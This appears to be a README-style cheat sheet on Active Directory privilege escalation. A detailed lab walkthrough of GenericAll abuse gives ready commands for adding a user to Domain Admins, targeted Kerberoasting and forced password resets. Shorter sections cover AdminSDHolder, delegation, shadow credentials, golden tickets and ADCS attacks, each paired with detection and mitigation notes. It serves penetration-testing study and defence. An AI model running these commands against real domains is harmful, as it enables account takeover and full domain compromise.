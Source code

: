 <details>
<summary> DACL/ACL-Based Escalation (GenericAll / WriteDACL / WriteProperty)</summary>
 <br> 
In Active Directory (AD), a DACL (Discretionary Access Control List) is a component of an object’s security descriptor. It specifies which users or groups are allowed (or denied) access to the object and what actions they are permitted to perform. It essentially controls who can do what to an object. Such as a user account, computer, group, or any other directory object.
If you (or a compromised account) have ACL rights like GenericAll, WriteDACL, or WriteProperty over another AD object (user, group, OU, computer), you can modify permissions or credentials to escalate privileges 
Generic ALL Right
In Active Directory, permissions and privileges define what actions an entity (user, group, or computer) can perform on another object. The “Generic ALL” privilege is one of the most powerful in AD because it grants complete control over the target object. This means that the user or group with this privilege can:

Modify any attribute of the object
Reset passwords
Add or remove members from groups
Delegate further control to other users
Delete the object altogether
Because of its extensive reach, an attacker who gains “Generic ALL” privileges on sensitive objects (like privileged groups or service accounts) can essentially gain domain dominance.

Exploiting “Generic ALL” Privilege
Here’s how an attacker can leverage the “Generic ALL” privilege to compromise Active Directory:

Identifying Targets with “Generic ALL” Privilege
The first step is to identify objects where the attacker has this privilege. This can be done using tools like BloodHound or PowerView, which map out Active Directory and show privilege relationships. Once identified, the attacker can choose their target based on the potential impact (e.g., a Domain Admin account).
Resetting Passwords
If the “Generic ALL” privilege is applied to a user account, the attacker can reset the account’s password. This is particularly devastating if the account is for a privileged user, such as a Domain Administrator. After resetting the password, the attacker can log in as that user and gain full control over the domain.
Modifying Group Membership
If the “Generic ALL” privilege is applied to a group, the attacker can add themselves to a high-privilege group, like Domain Admins or Enterprise Admins. This grants them the privileges of those groups, effectively giving them control over the entire domain.
Abusing Delegated Control
With the “Generic ALL” privilege, the attacker can delegate control of the target object to another user or group. This allows them to grant privileges to themselves or other malicious users without raising suspicion immediately.
Deleting or Modifying Objects
In extreme cases, an attacker with “Generic ALL” can delete critical objects, such as service accounts or privileged users, causing operational disruptions or creating avenues for further exploitation.
🔍 Detection

Use BloodHound to detect privileged edges (WriteDacl, GenericAll).

Run PowerView:

powershell

    Get-ObjectAcl -SamAccountName TargetUser -ResolveGUIDs
Filter for rights: GenericAll, WriteDacl, etc. 

⚙️ Exploitation
Use PowerView/Powermad:

powershell

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "LowPrivUser" -Rights All
Then add yourself to Domain Admins or reset passwords.
Exploitation Phase I – User Own Generic All Right for Group
Compromised User: Komal

Target Account: Domain Admin Group

Now that the lab is set up, let’s walk through how an attacker (acting as Komal) can abuse the Generic ALL privilege.

Assuming the Red Teamer knows the credential for Komal Users as a Standard Domain Users and would like to enumerate the other Domain users & Admin members with the help of “net-rpc” Samba command line Utility.

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
After executing above command its has been concluded that the Administrator users is only the single member of the Admin group. Unfortunately, the tester is doesn’t know the credentials of administrator.



Bloodhound -Hunting for Weak Permission
Use BloodHound to Confirm Privileges: You can use BloodHound to verify that Komal has the Generic ALL right on the Domain Admins group.

bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All
Generic ALL Active Directory Abuse

From the graphical representation of Bloodhound, the tester would like to identify the outbound object control for selected user where the first degree of object control value is equal to 1.



Thus it has shown the Komal User has Generic ALL privilege to Domain Admin group and provided steps for exploitation to be proceed.

Generic ALL Active Directory Abuse

Method for Exploitation – Account Manipulation (T1098)
1. Linux Net RPC – Samba
The tester can abuse this permission by Komal User into Domain Admin group and list the domain admin members to ensure that Komal Users becomes Domain Admin.

net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8


2. Linux Bloody AD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"


Thus, from the user property we can see Komal user has become a member of domain admin.

Generic ALL Active Directory Abuse

3. Windows Net command
net group "domain admins" komal /add /domain


Exploitation Phase II – User’s own generic Right for another user
To set up a lab environment where the user Nishant has Generic ALL rights over the user Vipin, you’ll need to follow several steps. This process involves configuring Active Directory (AD) permissions so that Nishant can manipulate attributes of the Vipin account.

Step 1: Create Two AD user accounts
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
                

Step 2: Assign Generic ALL Permissions
Open Active Directory Users and Computers.
Navigate to the Vipin user account.
Right-click on Vipin, select Properties.
                Generic ALL Active Directory Abuse

Go to the Security tab.
Click Advanced and then Add.
                

In the “Enter the object name to select” box, type Nishant and click Check Names.
After adding Nishant, set the permissions:
Check Generic All in the permissions list (you may need to select Full Control to encompass all rights).
                

Ensure Applies to is set to This object only.
                Generic ALL Active Directory Abuse

Bloodhound -Hunting for Weak Permissions
Hunting for First Degree objection Control for Nishant Users as we did in previous steps

bloodhound-python -u nishant -p Password@1 -ns 192.168.1.8 -d ignite.local -c All


From the graph, it can be observed that the Nishant user owns generic all privileges on Vipin user

Generic ALL Active Directory Abuse

Moreover, Bloodhound also helps the pentest to define the possible attack from the user account nishant, this user can perform domain attack such as keroasting and shadow credentials



Multiple Methods for Exploitation
1. T1558.003 – Kerberoasting
1.1  Linux Python Script – TargetedKerberoast
Compromised User: Nishant: Password@123

Target User: Vipin

Kerberoasting is an attack technique that targets service accounts in Active Directory environments, where an attacker with Generic ALL permissions on a user can exploit the ability to request service tickets (TGS). By requesting TGS for service accounts, the attacker can obtain encrypted tickets that include the service account’s password hash. Since these tickets can be extracted and then offline cracked, the attacker can potentially gain access to the service account’s credentials. The attack leverages the fact that service accounts typically have elevated privileges, allowing the attacker to escalate their own access within the network once the password is cracked. This exploitation is particularly effective in environments where weak or easily guessable passwords are used for service accounts.

Cloning the Targeted Kerberoast Tool
To perform this attack, first, clone the targetedKerberoast repository from GitHub using the following command:

git clone https://github.com/ShutdownRepo/targetedKerberoast.git
Generic ALL Active Directory Abuse

./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
As we have seen during the lab setup, the vipin user was added as a domain user account, which does not have any associated SPN. The Python script has modified the attribute of vipin user to set the SPN name and then dump Krbtgs hash that can be brute-forced offline. Moreover, the script performs a clear track step by removing the SPN well live from the user attribute.

This type of attack is ideally best when the attacker is not willing to change the password for the target user <Vipin in our case>, even generic all privilege is enabled for the compromised user. Yes, this step is less noisy than changing the password of any user.



Further, with the help of John the Ripper and a dictionary such as Rock You can help the attacker to brute force the weak password.

Generic ALL Active Directory Abuse

1.2 Windows PowerShell Script-PowerView
To perform Kerberoasting using PowerView on a Windows machine, you can leverage PowerView’s ability to enumerate Active Directory service accounts that have Service Principal Names (SPNs). These SPNs can be requested to obtain service tickets (TGS), which can then be cracked offline to reveal the service account’s credentials. Here’s a brief overview of the steps:

Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1


Cracking TGS hash using Rockyou.txt with the help of Hashcat Tool.

Generic ALL Active Directory Abuse

2.     T1110.001 – Change Password
2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8


2.2 Linux Net RPC – BloodAD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
Generic ALL Active Directory Abuse

2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
Generic ALL Active Directory Abuse

2.4 Windows Net Utility
net user Vipin Password@1234 /domain


2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.localvipin', $SecPassword)
Generic ALL Active Directory Abuse

2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword

🛡️ Mitigation

Audit ACLs on sensitive objects (adminCount=1).

Use BloodHound to regularly review privileged rights.

Limit ACEs granting WriteDACL or GenericAll.
</details>
<details>
<summary>AdminSDHolder Abuse</summary>
 <br>  
The AdminSDHolder object enforces consistent ACLs on protected groups (like Domain Admins). If you can alter its ACL, the change propagates via SDProp to all members 

🔍 Detection
Search for AdminSDHolder ACLs:

powershell

    Get-ADUser -LDAPFilter "(AdminCount=1)" ...
    Get-ACL "AD:CN=AdminSDHolder,CN=System,DC=domain,DC=com"
⚙️ Exploitation

powershell

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,...' -PrincipalSamAccountName attacker -Rights All
You’ll gain long-term privileged membership.

🛡️ Mitigation

Restrict ACL modifications on AdminSDHolder.

Monitor event logs for changes (event IDs 4662, 4670).
</details>
<details>
<summary>Resource-Based Constrained Delegation (RBCD) Abuse</summary>
 <br> 

Control over a computer object plus delegation rights can allow you to impersonate users to services—escalating to SYSTEM or DC-level access via Kerberos ticket forging.

🔍 Detection
Use BloodHound to detect AllowedToDelegateTo paths. Query with:

powershell

    Get-ADComputer -Properties msDS-AllowedToDelegateTo
⚙️ Exploitation
Create a computer account (e.g. attacker$) and set delegation rights:

powershell

    Set-ADComputer target$ -Add @{msDS-AllowedToDelegateTo='attacker$'}
Then issue Kerberos tickets with Rubeus or Impacket.

🛡️ Mitigation

Limit delegation rights.

Audit msDS-AllowedToDelegateTo attributes.

Disable unconstrained delegation unless required.
</details>
<details>
<summary>Shadow Credentials</summary>
 <br> 

If you can write to the msDS-KeyCredentialLink attribute on an object, you can create a "shadow credential" (certificate) to authenticate as them via Kerberos PKINIT without needing passwords 
HADESS

🔍 Detection
Check write permissions on this attribute via BloodHound or PowerView:

powershell

    Get-ACL object | Select-Object rights
⚙️ Exploitation
Use Whisker.exe:

powershell

    Whisker.exe add /target:CompAccount$
Then obtain TGT via certificate-based authentication with Rubeus.

🛡️ Mitigation

Disable unnecessary write access to msDS-KeyCredentialLink.

Monitor certificate enrollment events.

Enforce Windows ≥2016 with Kerberos protections.
</details>
<details>
<summary>SID History Injection</summary>
 <br> 

If you can modify SIDHistory (or have KRBTGT hash), you can inject high-privilege SIDs into your account and forge golden tickets for domain admin access.

🔍 Detection
Check SIDHistory values via ADSI or BloodHound.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:attacker /sid:<DA_SID> 
Forge TGT tickets to escalate.

🛡️ Mitigation

Monitor creation of unusual tickets or SIDHistory changes (Event ID 4720/4732).

Secure KRBTGT hash with frequent password resets.
</details>
<details>
<summary>Trust Exploitation / Foreign Security Principals Abuse</summary>
 <br>
 Trust Exploitation / Foreign Security Principals Abuse

In multi-domain or multi-forest environments, trust misconfigurations allow abused FSP entries from other realms to escalate via cross-domain ACLs.

🔍 Detection
BloodHound shows trust paths and unresolved SIDs.

⚙️ Exploitation
Add FSP SID from trusted domain into a privileged group using ACL editing.

🛡️ Mitigation

Enable SID filtering.

Validate cross-domain ACLs for resolved accounts only.
</details>
<details>
<summary>gMSA Password Disclosure</summary>
 <br>
 gMSA Password Disclosure

If you can read msDS-ManagedPassword, you can retrieve the machine account password of a Group Managed Service Account to impersonate it.

🔍 Detection
Check ACL on gMSA:

powershell

    Get-ADServiceAccount gmsa -Properties msDS-ManagedPassword
ConvertFrom-ADManagedPasswordBlob ...
⚙️ Exploitation
With ReadGMSAPassword rights, extract credentials via PowerShell (ConvertFrom-ADManagedPasswordBlob).

🛡️ Mitigation

Restrict read ACLs for these attributes.

Monitor gMSA password retrieval events.
</details>
<details>
<summary>Golden Ticket Forgery (KRBTGT compromise)</summary>
 <br>
If you can extract KRBTGT NTLM hash (e.g. via DCSync), you can issue valid TGTs for any domain user—including Domain Admins—without contacting KDC.

🔍 Detection
Monitor long-lifetime TGT events (Event ID 4768) or hash extraction attempts.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:Administrator /krbtgt:<hash> /domain:domain.com
Inject ticket with /ptt.

🛡️ Mitigation

Periodically reset KRBTGT twice.

Monitor DCSync and TGT creation anomalies.
</details>
<details>
<summary> ADCS Misconfiguration / ESC Attacks</summary>
 <br>

Abusing Certificate Templates or CA permissions can allow low-privilege users to enroll certs for high-risk purposes (e.g. escrow, domain authentication), leading to full domain compromise 

🔍 Detection

Use certipy, bloodhound or certify to enumerate templates and CA ACLs.

Check for templates that allow enrollment to Authenticated Users.

⚙️ Exploitation
Certipy or PowerView:

powershell
Copy
Edit
Certipy find
Certipy enroll attacker -template vulnerableTemplate
Use resulting certificate to authenticate via PKINIT.

🛡️ Mitigation

Secure template ACLs (use principle of least privilege).

Require CA manager approval for templates.

Monitor certificate issuance logs.


